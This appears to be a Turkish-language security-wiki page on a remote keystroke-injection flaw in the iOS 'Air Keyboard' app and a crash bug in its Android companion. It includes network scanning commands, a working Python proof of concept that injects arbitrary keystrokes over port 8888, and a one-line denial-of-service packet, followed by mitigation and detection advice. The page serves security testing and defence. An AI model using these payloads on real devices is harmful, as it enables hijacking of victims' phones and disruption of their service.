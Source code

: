 # Air Keyboard Remote Input Injection (Kimlik Doğrulaması Olmadan TCP Dinleyici)

{{#include ../../banners/hacktricks-training.md}}

## TL;DR

Ticari "Air Keyboard" uygulamasının iOS versiyonu (App Store ID 6463187929), **port 8888'de açık metin TCP servisi** başlatır ve **herhangi bir kimlik doğrulaması olmadan** tuş vuruşu çerçevelerini kabul eder. Aynı Wi-Fi ağındaki herhangi bir cihaz o porta bağlanabilir ve kurbanın telefonuna rastgele klavye girişi enjekte ederek **tam uzaktan etkileşim ele geçirme** sağlar.

Bir eşlik eden Android sürümü **port 55535'te** dinler. Zayıf bir AES-ECB el sıkışması gerçekleştirir, ancak oluşturulan çöp, **OpenSSL şifre çözme rutininde işlenmemiş bir istisna** oluşturur ve arka plan hizmetini çökertir (**DoS**).

## 1. Servis Keşfi

Yerel ağı tarayın ve uygulamalar tarafından kullanılan iki sabit portu arayın:
```bash
# iOS (input-injection)
nmap -p 8888 --open 192.168.1.0/24

# Android (weakly-authenticated service)
nmap -p 55535 --open 192.168.1.0/24
```
Android cihazlarda sorumlu paketi yerel olarak tanımlayabilirsiniz:
```bash
adb shell netstat -tulpn | grep 55535     # no root required on emulator

# rooted device / Termux
netstat -tulpn | grep LISTEN
ls -l /proc/<PID>/cmdline                # map PID → package name
```
## 2. Çerçeve Formatı (iOS)

Binary, `handleInputFrame()` rutininde aşağıdaki ayrıştırma mantığını ortaya koyuyor:
```
[length (2 bytes little-endian)]
[device_id (1 byte)]
[payload ASCII keystrokes]
```
Açıklanan uzunluk, `device_id` baytını **ancak** iki baytlık başlığı içermez.

## 3. Exploitation PoC
```python
#!/usr/bin/env python3
"""Inject arbitrary keystrokes into Air Keyboard for iOS"""
import socket, sys

target_ip = sys.argv[1]                  # e.g. 192.168.1.50
keystrokes = b"open -a Calculator\n"     # payload visible to the user

frame  = bytes([(len(keystrokes)+1) & 0xff, (len(keystrokes)+1) >> 8])
frame += b"\x01"                         # device_id = 1 (hard-coded)
frame += keystrokes

with socket.create_connection((target_ip, 8888)) as s:
s.sendall(frame)
print("Injected", keystrokes)
```
Herhangi bir yazdırılabilir ASCII ( `\n`, `\r`, özel tuşlar vb. dahil) gönderilebilir, bu da saldırgana fiziksel kullanıcı girişi ile aynı gücü verir: uygulamaları başlatma, anlık mesaj gönderme, oltalama URL'lerini ziyaret etme vb.

## 4. Android Companion – Hizmet Reddi

Android portu (55535), **hard-coded AES-128-ECB anahtarı** ile şifrelenmiş 4 karakterli bir şifre ve ardından rastgele bir nonce bekler. Ayrıştırma hataları `AES_decrypt()` fonksiyonuna yükselir ve yakalanmaz, dinleyici iş parçacığını sonlandırır. Bu nedenle, tek bir hatalı paket, meşru kullanıcıların bağlantısının kesilmesi için yeterlidir, ta ki işlem yeniden başlatılana kadar.
```python
import socket
socket.create_connection((victim, 55535)).send(b"A"*32)  # minimal DoS
```
## 5. Temel Sebep

1. Gelen çerçeveler üzerinde **kaynak / bütünlük kontrolleri** yok (iOS).
2. **Kriptografik kötüye kullanım** (statik anahtar, ECB, uzunluk doğrulaması eksik) ve **istisna işleme eksikliği** (Android).

## 6. Azaltma ve Güçlendirme Fikirleri

* Mobil cihazda kimlik doğrulaması yapılmamış hizmetleri asla açığa çıkarmayın.
* Onboarding sırasında cihaz başına gizli anahtarlar türetin ve girişi işlemden önce doğrulayın.
* Dinleyiciyi `127.0.0.1` adresine bağlayın ve uzaktan kontrol için karşılıklı kimlik doğrulamalı, şifreli bir taşıma kullanın (örneğin, TLS, Noise).
* Mobil güvenlik incelemeleri sırasında beklenmedik açık portları tespit edin (`netstat`, `lsof`, `frida-trace` üzerinde `socket()` vb.).
* Bir son kullanıcı olarak: Air Keyboard'ı kaldırın veya yalnızca güvenilir, izole Wi-Fi ağlarında kullanın.

## Tespit Kılavuzu (Pentesterlar)
```bash
# Quick one-liner to locate vulnerable devices in a /24
nmap -n -p 8888,55535 --open 192.168.1.0/24 -oG - | awk '/Ports/{print $2,$3,$4}'

# Inspect running sockets on a connected Android target
adb shell "for p in $(lsof -PiTCP -sTCP:LISTEN -n -t); do echo -n \"$p → "; cat /proc/$p/cmdline; done"
```
## Referanslar

- [Air Keyboard iOS Uygulamasındaki Uzaktan Girdi Enjeksiyon Açığı Hala Yamanmamış](https://www.mobile-hacker.com/2025/07/17/remote-input-injection-vulnerability-in-air-keyboard-ios-app-still-unpatched/)
- [CXSecurity danışmanlığı WLB-2025060015](https://cxsecurity.com/issue/WLB-2025060015)

{{#include ../../banners/hacktricks-training.md}}
